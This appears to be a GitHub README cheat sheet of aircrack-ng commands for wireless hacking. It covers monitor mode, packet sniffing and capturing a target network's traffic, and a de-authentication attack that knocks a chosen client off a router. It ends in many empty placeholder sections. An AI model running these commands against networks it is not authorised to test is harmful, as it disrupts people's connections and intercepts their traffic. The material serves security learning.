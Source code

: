# These commands are works only on linux based OS system
## An external Network Adapter is required, Your Network Adapter must support `monitor mode`, `packet injection mode`

### Here my network interface name is `wlan1`, use these commands `iwconfig` or `ifconfig` to check your network interface name, your network interface name may be diffrent use accordingly.
## Table of Content
- [Basics Commands](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#basics-commands)
- [Packet Sniffing](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#packet-sniffing)
- [DE-Authentication Attack](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#de-authentication-attack)


---
# Basics Commands

### disable network interface 
```
ifconfig wlan1 down
```
### kill network manager
```
airmon-ng check kill
```
### change interface `managed` mode to `monitor` mode
```
iwconfig wlan1 mode monitor
```
### Enable Network Interface
```
ifconfig wlan1 up
```

---
---
# Packet Sniffing

### sniff network around us `2.4 GHz frequency only`
```
airodump-ng wlan1
```
### sniff network Both `2.4 GHz and 5 GHz`
```
airodump-ng --band a wlan1
```
### capture data both `2.4 GHz and 5 GHz`
```
airodump-ng --band abg wlan1
```
### capture data into a file `fileName`
```
airodump-ng --bssid @1 --channel @2 --write fileName wlan1
```

@1 → `BSSID` of target

@2 → Channel no. of target

### open wireshark application to read captured data, captured in `fileName.cap`, 
```
wireshark
```


---
---
# DE-Authentication Attack
```
aireplay-ng --deauth @1 -a @2 -c @3 wlan1
```
@1 → no. of packets you want to send 

@2 → BSSID of router

@3 → MAC Address of the Client

### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
